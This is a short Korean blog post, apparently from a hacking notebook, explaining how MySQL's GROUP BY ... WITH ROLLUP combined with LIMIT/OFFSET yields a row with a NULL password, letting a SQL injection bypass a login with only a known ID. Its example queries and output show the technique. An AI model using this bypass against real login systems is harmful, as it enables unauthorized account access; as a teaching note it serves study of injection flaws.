 ```yaml
---
layout: post
title: Group By SQL Injection
date: 2015-08-24 13:45:00 +0900
category: Hacking 
---
```

```
mysql> select * from member  group by 2 with rollup;

+-------+------+

| id    | pw   |

+-------+------+

| admin | 1234 |

| admin | NULL |

+-------+------+

2 rows in set (0.00 sec)





mysql> select * from user group by 2 with rollup limit 1,2;

+-------+----------+

| id    | password |

+-------+----------+

| admin | NULL     |

+-------+----------+

1 row in set (0.00 sec)

```

이렇게 되면 ()를 쓰는 함수를 쓰지 안아도 우회가 가능하다. 

아이디만 맞으면 로그인이 가능하다. 

rollup함수는 그룹 조건에 따라 컬럼을 그룹화하고 그 데이터의 총합을 구해주는 함수다. 하지만 문자열의 총합을 구하게 되면 

NULL값을 반환하기 때문에 SQL Injection에 악용될수 있다. 





보통 로그인에는 limtit 1이 사용된다. 그렇기 때문에 뒤에 offset 1 을 쓰면 하나는 생략하고 출력한다는 의미다.

이렇게 해도 로그인 우회가 가능하다. 


```
mysql> select * from user group by 2 with rollup limit 1 offset 1;

+-------+----------+

| id    | password |

+-------+----------+

| admin | NULL     |

+-------+----------+

1 row in set (0.00 sec)



mysql>
```




